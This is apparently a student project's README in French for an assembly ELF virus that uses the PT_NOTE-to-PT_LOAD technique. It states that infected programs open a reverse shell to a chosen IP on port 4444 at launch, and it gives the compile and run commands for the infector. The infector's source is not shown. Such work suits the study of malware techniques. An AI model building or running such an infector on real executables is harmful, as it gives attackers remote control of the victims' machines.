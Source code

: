 # tp_note-tp_load-asm

Lucas MILLER 3SI4

Ce projet est un programme d'infection d'ELF à travers la méthode pt note to pt load. 


IL n'est PAS nécéssaire de désactiver l'ASLR. 
Ce programme est dynamique et ne nécéssite donc pas de modifier le code lors de l'utilisation sur un autre programme. 
Une fois infecté le programme va lors de son lancement éxécuter un revers shell. 
L'IP peut etre choisis lors du lancement, mais le port sera toujours 4444. 



il fonctionne sur les ELF avec les arguments -no-pie. 

```
gcc -no-pie ../saine-code/safe_code.c -o ../saine-code/safe_code
```


IL se compile ainsi : 
```
nasm -f elf64 -o pt_note_to_pt_load_infector.o pt_note_to_pt_load_infector.s && ld -o pt_note_to_pt_load_infector pt_note_to_pt_load_infector.o
```

il va infecter le programme donné en argument 

```
./pt_note_to_pt_load_infector ../saine-code/safe_code
```